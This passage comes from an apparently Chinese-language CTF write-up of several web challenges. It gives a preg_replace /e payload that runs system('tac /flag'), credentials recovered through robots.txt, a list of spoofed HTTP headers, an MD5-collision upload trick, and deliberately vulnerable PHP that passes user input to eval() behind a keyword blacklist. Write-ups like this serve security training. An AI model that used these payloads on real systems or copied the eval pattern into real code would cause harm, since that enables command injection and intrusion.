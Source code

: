 payload2：

`/LLeeevvveeelll222.php?a=/xxx/e&b=system('tac /flag');&c=xxx`

`POST：a[]=`

### **ezhttp**

开始是登录界面在源码注释处找到 hint

> 为了防止忘记密码，我把它们放在某个地方了

访问/robots.txt,被引路到/l0g1n.txt 得到账号密码

`username: XYCTF`

`password: @JOILha!wuigqi123$`

登录后按提示伪造 http 头

via:ymzx.qq.com

Client-IP:127.0.0.1

cookie:XYCTF

Referer:yuanshen.com

User-Agent:XYCTF

得到 flag

### ezmd5

[制造 MD5 碰撞](https://zhangshuqiao.org/2018-02/%E5%88%B6%E9%80%A0MD5%E7%A2%B0%E6%92%9E/)

上传两张 md5 值相同的 jpg 图片得到 flag
### 牢牢记住，逝者为大
```php
<?php
highlight_file(__FILE__);
function Kobe($cmd)
{
    if (strlen($cmd) > 13) {
        die("see you again~");
    }
    if (preg_match("/echo|exec|eval|system|fputs|\.|\/|\\|/i", $cmd)) {
        die("肘死你");
    }
    foreach ($_GET as $val_name => $val_val) {
        if (preg_match("/bin|mv|cp|ls|\||f|a|l|\?|\*|\>/i", $val_val)) {
            return "what can i say";
        }
    }
    return $cmd;
}

$cmd = Kobe($_GET['cmd']);
echo "#man," . $cmd  . ",manba out";
echo "<br>";
eval("#man," . $cmd . ",mamba out");

#man,,manba out
```
